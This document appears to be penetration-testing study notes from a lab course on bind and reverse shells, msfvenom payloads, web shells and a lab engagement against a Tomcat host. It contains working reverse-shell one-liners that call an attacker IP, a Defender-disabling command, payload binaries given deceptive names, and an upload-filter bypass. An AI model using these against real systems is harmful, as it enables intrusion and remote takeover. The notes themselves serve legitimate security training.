# Table of Contents

- [A. Shell Basics](#a-shell-basics)
  - [Anatomy of a Shell](#anatomy-of-a-shell)
    - [Shell Validation](#shell-validation)
  - [Bind Shell](#bind-shell)
    - [Definition](#definition)
    - [Establishing a Basic Bind Shell with Netcat](#establishing-a-basic-bind-shell-with-netcat)
  - [Reverse Shell](#reverse-shell)
    - [Definitions](#definitions)
    - [Simple Reverse Shell in Windows](#simple-reverse-shell-in-windows)
- [B. Payloads](#b-payloads)
  - [Introduction to Payloads](#introduction-to-payloads)
    - [Breakdown of Netcat/Bash Reverse Shell One-liner](#breakdown-of-netcatbash-reverse-shell-one-liner)
    - [Breakdown of PowerShell One-liner](#breakdown-of-powershell-one-liner)
  - [Automating Payloads & Delivery with Metasploit](#automating-payloads--delivery-with-metasploit)
  - [Crafting Payloads with MSFvenom](#crafting-payloads-with-msfvenom)
    - [Staged Vs Stageless Payload](#staged-vs-stageless-payload)
    - [Building a Stageless Payload](#building-a-stageless-payload)
- [C. Windows Shells](#c-windows-shells)
  - [Enumerating Windows & Fingerprinting Methods](#enumerating-windows--fingerprinting-methods)
  - [Windows Payload Types](#windows-payload-types)
  - [Tools, Tactics, and Procedures for Payload Generation, Transfer, and Execution](#tools-tactics-and-procedures-for-payload-generation-transfer-and-execution)
- [D. NIX Shells](#d-nix-shells)
  - [Spawning a TTY Shell with Python](#spawning-a-tty-shell-with-python)
  - [Other methods to spawn shells](#other-methods-to-spawn-shells)
- [E. Web Shells](#e-web-shells)
  - [Laudanum WebShell](#laudanum-webshell)
  - [Antak Webshell](#antak-webshell)
    - [Active Server Page Extended (ASPX)](#active-server-page-extended-aspx)
    - [Antak Webshell and using it](#antak-webshell-and-using-it)
  - [PHP Web Shells](#php-web-shells)
- [F. Live Engagement](#f-live-engagement)
  - [Exploiting Host 1: WAR Reverse Shell](#exploiting-host-1-war-reverse-shell)
  - [Exploiting Host 2: Searching for Metasploit module](#exploiting-host-2-searching-for-metasploit-module)
  - [Exploiting Host 3: Eternal Blue](#exploiting-host-3-eternal-blue)

# A. Shell Basics

## Anatomy of a Shell
### Shell Validation
- We can identify the language interpreter by viewing the processes running on the machine:
```bash
selwynang@htb[/htb]$ ps

    PID TTY          TIME CMD
   4232 pts/1    00:00:00 bash
  11435 pts/1    00:00:00 ps
```
- We can also find out what shell language is in use by viewing the environment variables:
```bash
selwynang@htb[/htb]$ env

SHELL=/bin/bash
```

## Bind Shell
### Definition
- With a bind shell, the target system has a listener started and awaits a connection from a pentester's system (attack box).
- **Challenges associated with Bind Shell:**
    1. There would have to be a listener already started on the target.
    2. If there is no listener started, we would need to find a way to make this happen.
    3. Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
    4. Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.
- Applications like `GNU Netcat` can be used to start the listener on the target. We would use `nc` on the attack box as our client, and the target would be the server.
- **Example of using `nc` for bind shell:**
```bash
# 1. Server - Target starting netcat listener
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

```bash
# 2. Client - Attack Box connecting to the target
selwynang@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

```bash
# 3. Server - Target receving connection from client
# Note that messages can be sent from the attack box to the target now.
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!    
``` 

### Establishing a Basic Bind Shell with Netcat
1. We need to send the following payload manually to the target:
```bash
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

2. Back on the client (attack box), we use `netcat` to connect to the server now that a shell on the server is being served:
```bash
selwynang@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$
```

## Reverse Shell
### Definitions
- With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.
- We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected.

### Simple Reverse Shell in Windows
1. We start a `netcat` listener on our attack box:
```bash
selwynang@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443

# We are binding it to a common port (443), this port usually is for HTTPS connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday.
```
2. On the Windows target, open a command prompt and input this command:
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
3. However, when we enter the above command, it shows that Windows Defender antivirus (AV) software stopped the execution of the code.  We will want to disable the antivirus through the Virus & threat protection settings or by using this command in an administrative PowerShell console (right-click, run as admin):
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```
---

# B. Payloads
## Introduction to Payloads
### Breakdown of Netcat/Bash Reverse Shell One-liner
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
- `rm -f /tmp/f;`: Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore non-existent files.
- `mkfifo /tmp/f;`: Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file.
- `cat /tmp/f |`: Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).
- `/bin/bash -i 2>&1 |`: Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).
- `nc 10.10.14.12 7777 > /tmp/f`: Uses Netcat to send a connection to our attack host 10.10.14.12 listening on port 7777. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed.

#### Breakdown of PowerShell One-liner
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- `powershell -nop -c`: Executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes.
- `"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);`: Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443).
- `$stream = $client.GetStream();`: Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications.
- `[byte[]]$bytes = 0..65535|%{0};`: Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.
- `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`: Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.
- `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);`: What we type won't just be transmitted and received as empty bits but will be encoded as ASCII text.
- `$sendback = (iex $data 2>&1 | Out-String );`: Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer.
- `$sendback2 = $sendback + 'PS ' + (pwd).path + '> ';`: Result in the shell prompt being PS C:\workingdirectoryofmachine >
- `$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}`: Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.
- `$client.Close()"`: This is the TcpClient.Close method that will be used when the connection is terminated.

## Automating Payloads & Delivery with Metasploit
- `sudo msfconsole`: Launches Metasploit console
- `search ...`: Use Metasploit's search functionality to discover modules
- `use ...`: Select a specific module
- `options`: Examine a module's options
- `set ...`: Sets options
- `exploit`: Commences the actual exploit

If the exploit is successful, a meterpreter will be opened.
- Meterpreter is a payload that uses in-memory DLL injection to stealthfully establish a communication channel between an attack box and a target. 
- The proper credentials and attack vector can give us the ability to upload & download files, execute system commands, run a keylogger, create/start/stop services, manage processes, and more.
- Meterpreter shell sessions allow us to issue a set of commands we can use to interact with the target system. We can use the `?` to see a list of commands we can use.
- We will notice limitations with the Meterpreter shell, so it is good to attempt to use the `shell` command to drop into a system-level shell if we need to work with the complete set of system commands native to our target.

## Crafting Payloads with MSFvenom
- `msfvenom` allows us to craft payloads, encrypt and encode payloads to bypass common anti-virus detection signatures.

- **Listing Payloads:** 
    - Payload naming convention almost always starts by listing the OS of the target (Linux, Windows, MacOS, mainframe, etc...).
    - Some payloads are described as (staged) or (stageless).
```bash
msfvenom -l payloads
```

### Staged Vs Stageless Payload
- **Staged Payload:**
    - Staged payloads create a way for us to send over more components of our attack.
    - Take for example this payload `linux/x86/shell/reverse_tcp`. When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.
- **Stageless Payload:**
    - Stageless payloads do not have a stage.
    - Take for example this payload `linux/zarch/meterpreter_reverse_tcp`. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere.
    - Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. 
    - In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering.
- **Naming Convention:**
    - `windows/meterpreter/reverse_tcp`: staged payload (first stage is meterpreter, followed by reverse tcp)
    - `windows/meterpreter_reverse_tcp`: stageless payload (shell payload and network communication in the same portion of the name)

### Building a Stageless Payload
- **Linux Stageless Payload**
```bash
selwynang@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

# -p: indicates that msfvenom is creating a payload
# LHOST=10.10.14.113 LPORT=443: Address and port to connect back to
# -f: speicifies the format the generated binary will be in
# > createbackup.elf: Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.
```

- **Windows Stageless Payload**
```bash
selwynang@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe finle: 73802 bytes
```

---

# C. Windows Shells
## Enumerating Windows & Fingerprinting Methods
- **Pinging Hosts**
    - Time To Live (TTL) counter when utilizing ICMP to determine if the host is up is typically either be 32 or 128 for Windows. A response of or around 128 is the most common response you will see.
```bash
selwynang@htb[/htb]$ ping 192.168.86.39 

PING 192.168.86.39 (192.168.86.39): 56 data bytes
64 bytes from 192.168.86.39: icmp_seq=0 ttl=128 time=102.920 ms
64 bytes from 192.168.86.39: icmp_seq=1 ttl=128 time=9.164 ms
64 bytes from 192.168.86.39: icmp_seq=2 ttl=128 time=14.223 ms
64 bytes from 192.168.86.39: icmp_seq=3 ttl=128 time=11.265 ms
```
- **OS Detection Scan**
```bash
selwynang@htb[/htb]$ sudo nmap -v -O 192.168.86.39

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-20 17:40 EDT
Initiating ARP Ping Scan at 17:40
Scanning 192.168.86.39 [1 port]
Completed ARP Ping Scan at 17:40, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:40
Completed Parallel DNS resolution of 1 host. at 17:40, 0.02s elapsed
Initiating SYN Stealth Scan at 17:40
Scanning desktop-jba7h4t.lan (192.168.86.39) [1000 ports]
Discovered open port 139/tcp on 192.168.86.39
Discovered open port 135/tcp on 192.168.86.39
Discovered open port 443/tcp on 192.168.86.39
Discovered open port 445/tcp on 192.168.86.39
Discovered open port 902/tcp on 192.168.86.39
Discovered open port 912/tcp on 192.168.86.39
Completed SYN Stealth Scan at 17:40, 1.54s elapsed (1000 total ports)
Initiating OS detection (try #1) against desktop-jba7h4t.lan (192.168.86.39)
Nmap scan report for desktop-jba7h4t.lan (192.168.86.39)
Host is up (0.010s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds
902/tcp open  iss-realsecure
912/tcp open  apex-mesh
MAC Address: DC:41:A9:FB:BA:26 (Intel Corporate)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
```

- **Banner Grab to Enumerate Ports**
```bash
selwynang@htb[/htb]$ sudo nmap -v 192.168.86.39 --script banner.nse

Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-20 18:01 EDT
NSE: Loaded 1 scripts for scanning.
<snip>
Discovered open port 135/tcp on 192.168.86.39
Discovered open port 139/tcp on 192.168.86.39
Discovered open port 445/tcp on 192.168.86.39
Discovered open port 443/tcp on 192.168.86.39
Discovered open port 912/tcp on 192.168.86.39
Discovered open port 902/tcp on 192.168.86.39
Completed SYN Stealth Scan at 18:01, 1.46s elapsed (1000 total ports)
NSE: Script scanning 192.168.86.39.
Initiating NSE at 18:01
Completed NSE at 18:01, 20.11s elapsed
Nmap scan report for desktop-jba7h4t.lan (192.168.86.39)
Host is up (0.012s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds
902/tcp open  iss-realsecure
| banner: 220 VMware Authentication Daemon Version 1.10: SSL Required, Se
|_rverDaemonProtocol:SOAP, MKSDisplayProtocol:VNC , , NFCSSL supported/t
912/tcp open  apex-mesh
| banner: 220 VMware Authentication Daemon Version 1.0, ServerDaemonProto
|_col:SOAP, MKSDisplayProtocol:VNC , ,
MAC Address: DC:41:A9:FB:BA:26 (Intel Corporate)
```

## Windows Payload Types
| Payload Type | Description|
| --- | --- |
| Dynamic Linking Library (`DLL`) | A library file used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. These files are modular and allow us to have applications that are more dynamic and easier to update. |
| Batch (`.bat`) | Text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter. |
| VBScript (`VBS`) | A lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. |
| `MSI` | Serve as an installation database for the Windows Installer. When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. |
| `powershell` | Powershell is both a shell environment and scripting language. It serves as Microsoft's modern shell environment in their operating systems. |

## Tools, Tactics, and Procedures for Payload Generation, Transfer, and Execution
- **Payload Generation:** `MSFVenom`, `Metasploit-Framework`, `Payloads All The Things`, `Mythic C2 Framework`, `Nishang`, `Darkarmour`.
- **Payload Transfer and Execution:**
    - `Impacket`: A toolset built in Python that provides us with a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with psexec, smbclient, wmi, Kerberos, and the ability to stand up an SMB server.
    - `Payload All The Things`: A great resource to find quick oneliners to help transfer files across hosts expediently.
    - `SMB`: provide an easy to exploit route to transfer files between hosts. This can be especially useful when the victim hosts are domain joined and utilize shares to host data. We, as attackers, can use these SMB file shares along with C$ and admin$ to host and transfer our payloads and even exfiltrate data over the links.
    - `Remote execution via MSF`: Built into many of the exploit modules in Metasploit is a function that will build, stage, and execute the payloads automatically.

---

# D. NIX Shells
## Spawning a TTY Shell with Python
- When we drop into the system shell, we may notice that no prompt is present, yet we can still issue some system commands. This is called a `non-tty shell`.
- These shells have limited functionality and can often prevent our use of essential commands like `su` (switch user) and `sudo` (super user do), which we will likely need if we seek to escalate privileges.
- We can manually spawn a TTY shell using Python if it is present on the system (we can check for Python's presence on Linux systems by typing `which python`).

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
## Other methods to spawn shells
- There may be times that we land on a system with a limited shell, and Python is not installed. In these cases, it's good to know that we could use several different methods to spawn an interactive shell.

```bash
# This command will execute the shell interpreter specified in the path in interactive mode (-i).
/bin/sh -i
```

```bash
# If the programming language Perl is present on the system, these commands will execute the shell interpreter specified.
perl -e 'exec "/bin/sh";'

# This command should be run from a script
perl: exec "/bin/sh";
```

```bash
# If the programming language Ruby is present on the system, this command will execute the shell interpreter specified. This command should be run from a script
ruby: exec "/bin/sh"
```

```bash
# If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below. This command should be run from a script.
lua: os.execute('/bin/sh')
```

```bash
# AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. 
awk 'BEGIN {system("/bin/sh")}'
```

```bash
# Find is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria. It can also be used to execute applications and invoke a shell interpreter.
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.
```

```bash
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
find . -exec /bin/sh \; -quit
```

```bash
# We can set the shell interpreter language from within VIM
vim -c ':!/bin/sh'

vim
:set shell=/bin/sh
:shell 
```
---

# E. Web Shells

## Laudanum WebShell
- `Laudanum` is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. 
- The repo includes injectable files for many different web application languages to include `asp`, `aspx`, `jsp`, `php`, and more.
- The `Laudanum` files can be found in the `/usr/share/laudanum` directory. 
- For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run. For specific files such as the shells, you must edit the file first to insert your attacking host IP address to ensure you can access the web shell or receive a callback in the instance that you use a reverse shell.

## Antak Webshell

### Active Server Page Extended (ASPX)
- `ASPX` is a file type/extension written for Microsoft's ASP.NET Framework. On a web server running the ASP.NET framework, web form pages can be generated for users to input data. On the server side, the information will be converted into HTML. 
- We can take advantage of this by using an ASPX-based web shell to control the underlying Windows operating system.

### Antak Webshell and using it
- Antak is a web shell built in ASP.Net included within the Nishang project.
- Antak utilizes PowerShell to interact with the host, making it great for acquiring a web shell on a Windows server.
- Antak files can be found in the `/usr/share/nishang/Antak-WebShell` directory.
- Antak web shell functions like a Powershell Console. However, it will execute each command as a new process. It can also execute scripts in memory and encode commands you send.

## PHP Web Shells
- Since PHP processes code & commands on the server-side, we can use pre-written payloads to gain a shell through the browser or initiate a reverse shell session with our attack box.
- Some websites may not allow uploading of PHP files, and only allow uploading of certain file types such as image files (`.png`, `.jpg`, `.gif`). We need to use `Burp Suite` to bypass this.
    1. Start Burp Suite, navigate to the browser's network settings menu and fill out the proxy settings. `127.0.0.1` will go in the IP address field, and `8080` will go in the port field to ensure all requests pass through Burp (recall that Burp acts as the web proxy).
    2. With Burp open and our web browser proxy settings properly configured, we can now upload the PHP web shell. Click the browse button, navigate to wherever our `.php` file is stored on our attack box, and select open and Save (we may need to accept the PortSwigger Certificate). It will seem as if the web page is hanging, but that's just because we need to tell Burp to forward the HTTP requests. Forward requests until you see the POST request containing our file upload.
    3. We will change Content-type from `application/x-php` to `image/gif`. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select Forward twice, and the file will be submitted. 

---

# F. Live Engagement
Firstly, we grab the IP address of the foothold with the command `ip a s`, and we note that it is `172.16.1.5`.


Next, we determine the IP addresses of all available hosts in the relevant subnet.


- Host 1 is `172.16.1.11` (`status.inlanefreight.local`).
- Host 2 is `172.16.1.12` (`blog.inlanefreight.local`).
- Host 3 is `172.16.1.13`.


## Exploiting Host 1: WAR Reverse Shell
We run a nmap scan on Host 1 first with the command `sudo nmap -A 172.16.1.11`. The following is the scan result returned:

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2026-10-03 16:16 EDT
Nmap scan report for status.inlanefreight.local (172.16.1.11)
Host is up (0.0016s latency).
Not shown: 989 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Inlanefreight Server Status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 Standard 17763 microsoft-ds
515/tcp  open  printer       Microsoft lpd
1801/tcp open  msmq?
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  msrpc         Microsoft Windows RPC
2107/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=shells-winsvr
|_Not valid before: 2026-10-02T19:45:30
|_Not valid after:  2027-04-03T19:45:30
|_ssl-date: 2026-10-03T20:17:17+00:00; -25s from scanner time.
| rdp-ntlm-info:
|   Target_Name: SHELLS-WINSVR
|   NetBIOS_Domain_Name: SHELLS-WINSVR
|   NetBIOS_Computer_Name: SHELLS-WINSVR
|   DNS_Domain_Name: shells-winsvr
|   DNS_Computer_Name: shells-winsvr
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-03T20:17:12+00:00
8080/tcp open  http          Apache Tomcat 10.0.11
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/10.0.11
MAC Address: 00:50:56:8A:F0:ED (VMware)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/3%OT=80%CT=1%CU=37827%PV=Y%DS=1%DC=D%G=Y%M=005056%T
OS:M=6AC162E7%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I
OS:%SS=S%TS=U)OPS(O1=M5B4NW8NNS%O2=M5B4NW8NNS%O3=M5B4NW8NNS%O4=M5B4NW8NNS%O5=M
OS:5B4NW8NNS%O6=M5B4NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70
OS:)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5B4NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A
OS:=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 1 hop
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: shells-winsvr
|   NetBIOS computer name: SHELLS-WINSVR\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-10-03T13:17:12-07:00
|_nbstat: NetBIOS name: SHELLS-WINSVR, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8a:f0:ed (VMware)
|_clock-skew: mean: 1h23m34s, deviation: 3h07m49s, median: -25s
| smb2-time:
|   date: 2026-10-03T20:17:12
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   1.55 ms status.inlanefreight.local (172.16.1.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.36 seconds
```

The hostname of Host 1 is exposed through the RDP service, which is `SHELLS-WINSVR`.

Open Firefox with the command `firefox` to view the web page on port `8080`. Let's try to logging to the manager web app with the provided credentials of `tomcat | Tomcatadm`.

We see that we deploy a `WAR` file on the server. We can perhaps use this `WAR` file upload functionality to upload a reverse shell back to our attack host.


We shall use `msfvenom` to generate a Windows reverse shell in the `WAR` file format called `hehe.war`.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.1.5 LPORT=4444 -f war -o hehe.war
```

Once created, we upload this shell to the target. Now, we need to access this shell in the target's relevant folder by clicking `/hehe` in the applications section.



However, before we do so, we need to set up a listener on our attack machine with the command `sudo nc -lvnp 4444`.



We managed to catch the reverse shell. The name of the folder in `C:\Shares\` is called `dev-share`.

